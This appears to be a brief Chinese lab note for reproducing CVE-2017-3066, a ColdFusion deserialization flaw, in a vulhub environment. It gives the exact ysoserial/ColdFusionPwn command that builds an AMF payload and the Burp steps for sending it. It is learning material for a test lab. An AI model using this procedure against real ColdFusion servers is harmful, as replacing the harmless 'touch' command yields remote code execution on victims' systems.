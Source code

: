 https://github.com/vulhub/vulhub/tree/master/coldfusion/CVE-2017-3066


https://codewhitesec.blogspot.com/2018/03/exploiting-adobe-coldfusion.html



环境启动成功后，访问http://your-ip:8500/CFIDE/administrator/index.cfm，输入密码vulhub，即可成功安装Adobe ColdFusion。



linux 下执行(windows7下未成功):

	java -cp ColdFusionPwn-0.0.1-SNAPSHOT-all.jar:ysoserial-0.0.5-all.jar com.codewhitesec.coldfusionpwn.ColdFusionPwner -e CommonsBeanutils1 'touch /tmp/success' poc.ser

发送 poc,

修改 Content-Type为application/x-amf


上传 poc.ser 到kali，

burp 右击选择Paste From File，上传poc.cer文件

![](1.jpg)

如果成功，并且打算以后还需要用的话，右击选择Copy to File保存为文件。


